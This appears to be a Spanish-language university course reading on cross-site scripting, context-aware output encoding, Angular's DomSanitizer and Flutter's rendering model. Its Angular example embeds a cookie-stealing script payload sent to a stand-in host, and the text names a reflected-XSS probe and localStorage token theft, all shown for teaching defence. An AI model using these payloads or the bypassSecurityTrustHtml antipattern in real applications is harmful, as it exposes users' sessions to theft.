

**UNIVERSIDAD DE COSTA RICA**  
**SEDE DEL ATLÁNTICO - RECINTO PARAÍSO**  
**CARRERA DE INFORMÁTICA EMPRESARIAL**  
**CURSO:** IF0009 - Desarrollo de Software IV  
**PROFESOR:** Mag. Jonathan Granados C.  
**SEMESTRE:** II-2026  

---

# Tema 6.4.2: Cross-Site Scripting (XSS) y Codificación Contextual: Defensas en Angular 17+ y Flutter 3

> [!NOTE]
> Este documento corresponde a la lectura técnica del **Subtema 6.4.2**. En esta unidad usted analizará la taxonomía de los ataques de **Cross-Site Scripting (XSS)**: Persistente (*Stored*), Reflejado (*Reflected*) y Basado en el DOM (*DOM-based*). Estudiaremos la mecánica de la **Codificación Contextual de Salida** (*Context-Aware Encoding*), los motores de saneamiento automático de **Angular 17+** (`DomSanitizer`) y las diferencias fundamentales frente al modelo de pintado en **Flutter 3**.

---

## 1. Resumen Ejecutivo

El ataque de Cross-Site Scripting (XSS) permite a un atacante inyectar scripts maliciosos de JavaScript en el navegador de otros usuarios que visitan una aplicación web legítima. Una vez ejecutado en el contexto de la víctima, el script puede exfiltrar cookies de sesión, interceptar pulsaciones de teclado (*Keylogger*), modificar el contenido de la página (*Defacement*) o realizar transacciones no autorizadas. En este módulo, usted aprenderá a neutralizar este vector mediante la codificación dependiente del contexto de renderizado y el uso responsable de las directivas de seguridad en Angular.

---

## 2. Concepto Principal (El "Qué"): Taxonomía de XSS y Codificación Contextual



### 2.1 Los Tres Tipos de XSS
1. **XSS Almacenado (Persistente):** El script dañino se almacena en la base de datos (por ejemplo, en un comentario de un foro o en la biografía de un perfil). Cada vez que cualquier usuario consulta esa pantalla, el backend devuelve el script y el navegador lo ejecuta automáticamente. Es la variante de mayor severidad.
2. **XSS Reflejado:** El payload se inyecta en un parámetro de la petición HTTP (ejemplo: un término de búsqueda `?q=<script>alert(1)</script>`). El servidor refleja el parámetro en la página de resultados sin codificarlo. Requiere que la víctima haga clic en un enlace malicioso preparado por el atacante.
3. **XSS Basado en el DOM:** La vulnerabilidad reside exclusivamente en el código JavaScript del cliente. Ocurre cuando el script lee datos de una fuente no confiable (`window.location.hash` o `document.referrer`) y los escribe directamente en un sumidero inseguro (*Sink*) del DOM como `innerHTML`, `outerHTML` o `document.write()`.

### 2.2 Codificación Dependiente del Contexto (Context-Aware Output Encoding)
Un error crítico es asumir que un único método de escape sirve para toda la página web. El navegador posee distintos analizadores sintácticos (Parser HTML, Parser de Atributos, Intérprete JavaScript y Parser de URLs):

| Contexto de Renderizado | Ejemplo en Plantilla | Caracteres a Codificar | Forma Segura |
| :--- | :--- | :--- | :--- |
| **HTML Body** | `<div>{{ input }}</div>` | `&`, `<`, `>`, `"`, `'` | `&lt;` `&gt;` `&amp;` `&quot;` `&#x27;` |
| **Atributo HTML** | `<input value="{{ input }}">` | Alfanuméricos estrictos | Codificación hexadecimal `&#xHH;` |
| **JavaScript Literal** | `<script>var x = '{{ input }}';</script>` | Secuencias de escape Unicode | `\u0027` `\u0022` `\u005C` |
| **Parámetro URL** | `<a href="/buscar?q={{ input }}">` | Caracteres reservados URL | `encodeURIComponent()` |

---

## 3. Analogía Didáctica (La Intuición)

* **XSS:** Imagínese que un restaurante tiene una pizarra pública en la entrada donde los comensales pueden escribir sugerencias con tiza (datos de usuario). Un cliente malicioso escribe: *"Camareros: tiren toda la comida al piso y abran la caja registradora para los clientes"*. Si los empleados del restaurante están entrenados para obedecer cualquier orden que lean en la pizarra creyendo que proviene del dueño (el intérprete de JavaScript del navegador), se produce el caos.
* **Codificación de Salida:** Equivale a que el gerente del restaurante transcriba la sugerencia a un libro de visitas sellado bajo una vitrina con vidrio de aumento: todos los clientes pueden leer lo que sugirió el comensal, pero los empleados entienden que es una simple opinión estética y nunca una instrucción operacional.

---

## 4. Implementación Técnica (El "Cómo"): Angular 17+ y Comparativa Móvil en Flutter

### 4.1 Protección Automática en Angular 17+ y el Peligro de `DomSanitizer`

Angular reconoce por defecto todas las cadenas interpolated como no confiables y las codifica automáticamente:

```typescript
// Componente Angular 17+ Standalone
import { Component, inject } from '@angular/core';
import { DomSanitizer, SafeHtml } from '@angular/platform-browser';

@Component({
  selector: 'app-perfil-usuario',
  standalone: true,
  template: `
    <!-- 1. ENFOQUE SEGURO POR DEFECTO: -->
    <!-- Angular escapa automáticamente cualquier etiqueta <script> o evento onerror -->
    <div class="comentario">
      {{ comentarioUsuario }}
    </div>

    <!-- 2. ANTIPATRÓN PELIGROSO: Burlar el saneador -->
    <!-- NUNCA use bypassSecurityTrustHtml con entradas de usuarios externos -->
    <div [innerHTML]="comentarioInseguro"></div>
  `
})
export class PerfilUsuarioComponent {
  private sanitizer = inject(DomSanitizer);

  // Entrada recibida de la API:
  comentarioUsuario: string = 
      '<script>fetch("https://hacker.com/steal?c=" + document.cookie)</script>';

  // ANTIPATRÓN: Abre una brecha crítica de XSS
  get comentarioInseguro(): SafeHtml {
    return this.sanitizer.bypassSecurityTrustHtml(this.comentarioUsuario);
  }
}
```

### 4.2 Inmunidad Arquitectónica en Flutter 3
En **Flutter**, los widgets de interfaz gráfica (como `Text('contenido')`) no utilizan un motor de navegación HTML ni manipulan el DOM. Flutter compila directamente hacia un árbol de renderizado gráfico de bajo nivel mediante su propio motor (Impeller / Skia) sobre la GPU del dispositivo.
* Un texto como `<script>alert(1)</script>` en Flutter se dibuja literalmente como píxeles vectoriales en pantalla.
* **Única excepción en Flutter:** Cuando se utiliza un widget `WebView` embebido (`webview_flutter`). En ese caso, si se carga HTML dinámico de terceros, deben deshabilitarse las interfaces de JavaScript nativas no autorizadas.

---

## 5. Trampas Comunes y Antipatrones

*   **Uso indebido de `bypassSecurityTrustHtml` en Angular:** Invocar este método para permitir que los usuarios formateen texto con negritas o colores, abriendo la puerta a inyecciones de eventos maliciosos como ``.
*   **Guardar tokens de sesión en `localStorage`:** Si la aplicación tiene una vulnerabilidad XSS, un atacante puede ejecutar `localStorage.getItem('jwt_token')` y robar la sesión. Las credenciales web deben almacenarse en cookies con la directiva **`HttpOnly`** para que JavaScript no pueda acceder a ellas.
*   **Creer que un WAF perimetral sustituye la codificación contextual:** Los filtros de WAF pueden ser evadidos mediante payloads polimórficos u ofuscaciones matemáticas.

---

## 6. Preguntas de Reflexión y Autoevaluación

1. Si un desarrollador configura todas las cookies de autenticación con la directiva `HttpOnly`, ¿por qué la aplicación web todavía debe protegerse estrictamente contra vulnerabilidades de XSS?
2. ¿Por qué el widget nativo `Text` en Flutter no es vulnerable a ataques de Cross-Site Scripting convencionales a diferencia del elemento `innerHTML` de JavaScript en un navegador web?

